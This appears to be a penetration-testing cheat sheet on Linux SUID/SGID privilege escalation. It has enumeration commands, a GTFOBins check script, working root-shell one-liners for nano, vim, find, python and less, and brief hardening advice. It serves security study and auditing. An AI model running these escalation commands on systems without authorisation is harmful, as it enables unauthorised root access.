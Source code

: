 # 🔐 Special Permissions (SUID/SGID)

## 🎯 Overview

SUID and SGID special permissions allow programs to execute with elevated privileges, providing potential privilege escalation vectors through vulnerable or misconfigured binaries.

## 🔍 Permission Types

### SUID (Set User ID)
- **Symbol**: `s` in user execute position
- **Function**: Execute program with **owner's privileges**
- **Risk**: If owner is root, program runs as root

### SGID (Set Group ID)  
- **Symbol**: `s` in group execute position
- **Function**: Execute program with **group's privileges**
- **Risk**: Inherit group permissions during execution

## 🔍 Enumeration Commands

### Find SUID Binaries
```bash
# SUID binaries (most common)
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

# Alternative format
find / -type f -perm -4000 -ls 2>/dev/null
```

### Find SGID Binaries
```bash
# SGID binaries
find / -user root -perm -2000 -exec ls -ldb {} \; 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# Both SUID and SGID
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

### Common SUID/SGID Locations
```bash
# Typical paths to check
/bin/
/usr/bin/  
/usr/local/bin/
/sbin/
/usr/sbin/
/usr/local/sbin/
```

## 🎯 GTFOBins Exploitation

### High-Risk SUID Binaries
```bash
# Common exploitable SUID binaries
nano, vim, vi          # Text editors
find                   # File finder
nmap                   # Network scanner
python, python3        # Interpreters
less, more            # Pagers
tail, head             # File readers
awk, sed               # Text processors
```

### Quick GTFOBins Check
```bash
# Cross-reference found SUID binaries with GTFOBins
curl -s https://gtfobins.github.io/ | html2text | grep -E "^[a-z-]+$" | while read binary; do
    if find / -name "$binary" -perm -4000 2>/dev/null | grep -q .; then
        echo "SUID BINARY FOUND: $binary - Check GTFOBins!"
    fi
done
```

## 🚀 Common Exploitation Examples

### nano/vim SUID Exploitation
```bash
# If nano has SUID bit
nano
# In nano: Ctrl+R Ctrl+X
# Execute: reset; bash 1>&0 2>&0

# If vim has SUID bit  
vim -c ':!/bin/bash'
```

### find SUID Exploitation
```bash
# If find has SUID bit
find . -exec /bin/bash \; -quit
find . -exec /bin/sh \; -quit
```

### python SUID Exploitation
```bash
# If python has SUID bit
python -c "import os; os.setuid(0); os.system('/bin/bash')"
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

### less/more SUID Exploitation
```bash
# If less has SUID bit
less /etc/passwd
# In less: !/bin/bash

# If more has SUID bit
more /etc/passwd
# In more: !/bin/bash
```

## 🔧 Advanced Techniques

### Custom SUID Binary Analysis
```bash
# Analyze unknown SUID binary
file /path/to/suid_binary
strings /path/to/suid_binary
ltrace /path/to/suid_binary
strace /path/to/suid_binary
```

### Shared Library Hijacking
```bash
# Check for library dependencies
ldd /path/to/suid_binary

# Find writable library paths
ldd /path/to/suid_binary | grep "=> /" | awk '{print $3}' | xargs ls -la
```

## 📋 Enumeration Script

```bash
#!/bin/bash
echo "=== SPECIAL PERMISSIONS ENUMERATION ==="

echo "[+] SUID binaries:"
find / -type f -perm -4000 2>/dev/null | head -20

echo "[+] SGID binaries:"
find / -type f -perm -2000 2>/dev/null | head -10

echo "[+] Both SUID and SGID:"
find / -type f -perm -6000 2>/dev/null

echo "[+] Custom SUID binaries (non-standard paths):"
find /home /opt /usr/local -type f -perm -4000 2>/dev/null

echo "[+] GTFOBins candidates:"
for binary in nano vim vi find python python3 less more tail head; do
    if find / -name "$binary" -perm -4000 2>/dev/null | grep -q .; then
        echo "  SUID: $binary - CHECK GTFOBINS!"
    fi
done
```

## 🔑 Quick Exploitation Reference

### Immediate Privilege Escalation
```bash
# Check for common exploitable SUID binaries
find / -type f -perm -4000 2>/dev/null | grep -E "(nano|vim|vi|find|python|less|more|tail|head|awk|sed)"

# GTFOBins one-liner check
for i in $(find / -type f -perm -4000 2>/dev/null | xargs basename | sort -u); do echo "Check GTFOBins for: $i"; done
```

### Emergency Escalation Commands
```bash
# If you find these SUID, try immediately:
nano -> Ctrl+R Ctrl+X -> reset; bash 1>&0 2>&0
vim -> :!/bin/bash  
find -> find . -exec /bin/bash \; -quit
python -> python -c "import os; os.setuid(0); os.system('/bin/bash')"
less -> !/bin/bash
```

## 🛡️ Defensive Considerations

### Dangerous SUID Configurations
- **Text editors** (nano, vim) with SUID
- **Interpreters** (python, perl) with SUID
- **File utilities** (find, cp, mv) with SUID
- **Custom applications** in user directories

### Hardening Recommendations
```bash
# Remove unnecessary SUID bits
chmod u-s /path/to/binary

# Audit SUID binaries regularly
find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null > suid_audit.txt

# Monitor for new SUID binaries
```

---

*Special permissions create powerful attack vectors - SUID and SGID bits can transform ordinary binaries into privilege escalation tools when combined with GTFOBins techniques.* 
